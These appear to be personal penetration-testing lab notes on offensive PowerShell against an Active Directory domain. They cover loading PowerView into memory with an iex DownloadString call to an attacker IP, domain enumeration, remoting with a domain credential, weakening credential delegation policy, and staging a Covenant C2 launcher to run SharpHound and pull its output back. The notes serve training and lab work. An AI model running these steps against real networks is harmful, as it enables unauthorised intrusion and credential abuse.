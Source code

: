 ### Offensive PowerShell Part 9 - Enumerating the Domain
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- `get-netdomain`
- `get-domainpolicy`
- `get-domainsid`


### Offensive PowerShell Part 10 - PowerShell Remoting
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- `Enter-PSSession -ComputerName workstation-02`
- `Enter-PSSession -ComputerName workstation-02 -Crential mayorsec\m.seitz`
- Alternatively,
	- `Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName workstation-02 -Credential mayorsec\m.seitz`

### Disable Setting on Domain Controller To Allow Passing of Hashes
- On domain
	- `gpedit`
		- `Computer Configuration`
			- `Administrative Templates`
				- `System`
					- `Credentials Delegation`
						- `Restrict delegation of credentials to remote servers : Disabled`

### Brief Overview of the Domain Through BloodHound
- Open a grunt with `Covenant`
	- [[Covenant Quick Shell on Windows Host]]
```bash
- Open `Covenant`
	- Set up a listener in `Listeners` tab
		- Name: `HTTP Listener`
		- ConnectAddress: `your-ip-address`
		- `Create`
	- Set up a launcher in `Launchers`
		- `PowerShell`
			- Listener: `HTTP Listener`
			- DotNetVersion: `Net40`
				- For a short link: `Net35` **Net35 is manditory when using `msiexec` and fodhelper i.e. `helper.ps1`**
			- KillDate: `some date in future`
			- `Generate`
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20221125031343.png)
```
- Paste the generated payload into the Windows host `powershell.exe` window
```
- In `Grunt`:
	- `ChangeDirectory C:\Users\Public`
		- `Upload`
			- `sharphound.exe`
				- Ensure the version of `Sharphound` is the same as the bloodhound install
	- `shell sharphound.exe -c all`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221127040208.png)
- `download 20221127035950_BloodHound.zip`
	- Make sure to **click** the download on `Covenant` to download 
![image](https://0xc0rvu5.github.io/docs/assets/images/20221127040452.png)
- If not installed
	- `apt install neo4j bloodhound`